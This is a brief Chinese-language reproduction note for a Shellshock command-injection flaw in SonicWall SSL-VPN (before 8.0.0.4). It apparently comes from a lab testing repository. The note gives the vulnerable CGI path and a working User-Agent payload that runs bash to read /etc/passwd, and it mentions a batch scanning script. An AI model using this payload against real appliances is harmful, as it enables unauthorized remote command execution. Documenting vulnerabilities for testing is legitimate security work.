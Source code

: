 # 0x00 软件介绍
SonicWall：一款VPN解决方案，包含WEB界面、VPN功能等

# 0x01 复现环境
复现环境：公司实验室  
复现版本：SonicWall  
环境搭建：  
略

# 0x02 利用条件
无

# 0x03 影响版本
SonicWall SSL-VPN < 8.0.0.4

# 0x04 漏洞复现
攻击环境：kali x64  
访问目标，burp抓包，将访问地址修改为
```
/cgi-bin/jarrewrite.sh
```
将User-Agent修改为
```
User-Agent: () { :; }; echo ; /bin/bash -c 'cat /etc/passwd'
```
成功执行命令，如下图
![image](./0.png)

# 0x05 批量脚本
批量脚本见batch-detect.py（脚本很简陋，正在写脚本时，领导分配了一个渗透任务，实在没时间了。。），执行结果如下：  
![image](./1.png)

# 0x06 参考链接
https://github.com/darrenmartyn/VisualDoor/blob/main/visualdoor.py
